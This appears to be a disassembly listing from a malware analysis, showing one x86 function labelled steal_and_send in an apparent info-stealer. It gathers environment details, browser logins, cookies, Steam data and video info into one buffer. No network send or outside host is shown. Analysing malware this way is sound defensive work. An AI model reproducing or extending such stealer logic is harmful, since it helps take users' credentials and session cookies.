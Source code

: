                 ;-- fcn.steal_and_send:
    ╒ (fcn) fcn.00461ba0 126
    │           ; var int local_1      @ ebp-0x4
    │           ; var int local_2      @ ebp-0x8
    │           ; var int local_3      @ ebp-0xc
    │           ; var int local_4      @ ebp-0x10
    │           ; var int local_5      @ ebp-0x14
    │           ; CALL XREF from 0x00461c59 (fcn.00461ba0)
    │           0x00461ba0      55             push ebp
    │           0x00461ba1      8bec           mov ebp, esp
    │           0x00461ba3      33c9           xor ecx, ecx
    │           0x00461ba5      51             push ecx
    │           0x00461ba6      51             push ecx
    │           0x00461ba7      51             push ecx
    │           0x00461ba8      51             push ecx
    │           0x00461ba9      51             push ecx
    │           0x00461baa      53             push ebx
    │           0x00461bab      8bd8           mov ebx, eax
    │           0x00461bad      33c0           xor eax, eax
    │           0x00461baf      55             push ebp
    │           0x00461bb0      681e1c4600     push 0x461c1e
    │           0x00461bb5      64ff30         push dword fs:[eax]
    │           0x00461bb8      648920         mov dword fs:[eax], esp
    │           0x00461bbb      68381c4600     push 0x461c38
    │           0x00461bc0      8d45fc         lea eax, [ebp-local_1]
    │           0x00461bc3      e8e851faff     call fcn.get_environment_info
    │           0x00461bc8      ff75fc         push dword [ebp-local_1]
    │           0x00461bcb      8d45f8         lea eax, [ebp-local_2]
    │           0x00461bce      e801b8faff     call fcn.get_browser_logins
    │           0x00461bd3      ff75f8         push dword [ebp-local_2]
    │           0x00461bd6      8d45f4         lea eax, [ebp-local_3]
    │           0x00461bd9      e8d66cfaff     call fcn.get_steam_data
    │           0x00461bde      ff75f4         push dword [ebp-local_3]
    │           0x00461be1      8d45f0         lea eax, [ebp-local_4]
    │           0x00461be4      e84f84faff     call fcn.get_video_info
    │           0x00461be9      ff75f0         push dword [ebp-local_4]
    │           0x00461bec      8d45ec         lea eax, [ebp-local_5]
    │           0x00461bef      e808b9faff     call fcn.get_browser_cookies
    │           0x00461bf4      ff75ec         push dword [ebp-local_5]
    │           0x00461bf7      8bc3           mov eax, ebx
    │           0x00461bf9      ba06000000     mov edx, 6
    │           0x00461bfe      e82926faff     call fcn.0040422c
    │           0x00461c03      33c0           xor eax, eax
    │           0x00461c05      5a             pop edx
    │           0x00461c06      59             pop ecx
    │           0x00461c07      59             pop ecx
    │           0x00461c08      648910         mov dword fs:[eax], edx
    │           0x00461c0b      68251c4600     push 0x461c25
    │           ; JMP XREF from 0x00461c23 (fcn.00461ba0)
    │           0x00461c10      8d45ec         lea eax, [ebp-local_5]
    │           0x00461c13      ba05000000     mov edx, 5
    │           0x00461c18      e8cf1ffaff     call fcn.00403bec
    ╘           0x00461c1d      c3             ret

